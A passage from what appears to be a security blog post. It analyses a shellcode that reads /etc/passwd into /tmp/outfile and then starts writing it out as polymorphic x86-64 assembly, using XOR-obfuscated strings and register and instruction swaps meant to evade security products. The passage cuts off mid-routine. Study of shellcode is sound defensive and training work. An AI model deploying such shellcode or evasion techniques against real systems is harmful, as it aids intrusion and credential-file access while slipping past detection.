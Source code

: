     ; 3rd argument of open: number of bytes to write inside
    ; the file "/tmp/outfile
    xor rdx, rdx
    mov rdx, r8

    ; invoke syscall write
    syscall</code></pre><figcaption>Analysis of the shellcode</figcaption></figure><p>Overall, the shellcode performs these operations:</p><ul><li>using the syscall <code>open</code> and read to read the contents of the file <code>/etc/passwd</code></li><li>using the syscall <code>open</code> to create a temporary file named <code>/tmp/outfile</code></li><li>using the syscall <code>write</code> to copy the bytes read from <code>/etc/passwd</code> in the newly-created file</li></ul><h2 id="polymorphism">Polymorphism</h2><p>Writing a polymorphic version of the shellcode, I noticed that many shellcodes on shell-storm.org aren't really optimized for size.</p><p>In this case, if you were to focus on using the minimum amount of bytes, you could certainly save around 20 bytes of shellcode.</p><p>You could save even more bytes if you decided to use a shorter name for the temporary file.</p><p>Back to the shellcode, I wrote the following assembly routines:</p><ul><li><em>OpenPasswdFile </em>opens the file <code>/etc/passwd</code></li><li><em>ReadPasswdFile</em> reads the contents of the file <code>/etc/passwd</code> and saves the bytes into a buffer</li><li><em>CreateTempFile </em>creates a new file named <code>/tmp/outfile</code></li><li><em>WriteTempFile</em> writes the bytes read from <code>/etc/passwd</code> into <code>/tmp/outfile</code></li></ul><h3 id="opening-the-file">Opening the file</h3><p>The first step is opening the file. Since the goal in this case is to modify the bytes in order achieve polymorphism and evade security products, I performed the following changes:</p><ul><li>change most of the registers</li><li>obfuscate the strings (through <code>XOR</code> operations in this case)</li><li>use <code>PUSH</code> and <code>POP</code> instead of <code>MOV</code></li><li>use <code>ADD</code> instead of <code>MOV</code></li></ul><figure class="kg-card kg-code-card"><pre><code class="language-nasm">global _start

section .text

_start:

OpenPasswdFile:

    ; clear RCX and push it to the stack
    ; to act as a string terminator
    xor ecx, ecx
    push rcx

    ; clear RSI and RAX
    push rcx
    pop rsi

    push rsi
    pop rax

    ; set RAX to 2 (syscall open)
    add al, 2

    ; XOR key
    mov rdi, 0x58b750eda5df8ee9

    ; string "sswd" xored
    mov ecx, 0xc1a8fd9a
    xor ecx, edi
    push rcx
